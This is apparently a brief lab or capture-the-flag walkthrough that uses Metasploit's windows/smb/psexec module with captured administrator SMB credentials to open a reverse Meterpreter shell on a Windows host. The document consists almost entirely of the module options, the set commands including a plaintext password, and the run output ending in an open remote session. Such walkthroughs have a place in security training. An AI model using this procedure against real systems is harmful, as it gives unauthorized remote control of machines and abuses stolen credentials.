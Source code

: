 
utilizing smb credentials to login remotely with PSexec

<br />

**exploit smb psexec using metasploit `windows/smb/psexec`**

```bash
msf5 auxiliary(scanner/smb/smb_login) > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.22.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/smb/psexec) > set RHOSTS 10.4.19.178
RHOSTS => 10.4.19.178
msf5 exploit(windows/smb/psexec) > set SMBUSER administrator
SMBUSER => administrator
msf5 exploit(windows/smb/psexec) > set SMBPASS qwertyuiop
SMBPASS => qwertyuiop
msf5 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.10.22.2:4444 
[*] 10.4.19.178:445 - Connecting to the server...
[*] 10.4.19.178:445 - Authenticating to 10.4.19.178:445 as user 'administrator'...
[*] 10.4.19.178:445 - Selecting PowerShell target
[*] 10.4.19.178:445 - Executing the payload...
[+] 10.4.19.178:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 10.4.19.178
[*] Meterpreter session 1 opened (10.10.22.2:4444 -> 10.4.19.178:49818) at 2024-01-14 15:56:10 +0530

meterpreter > 

```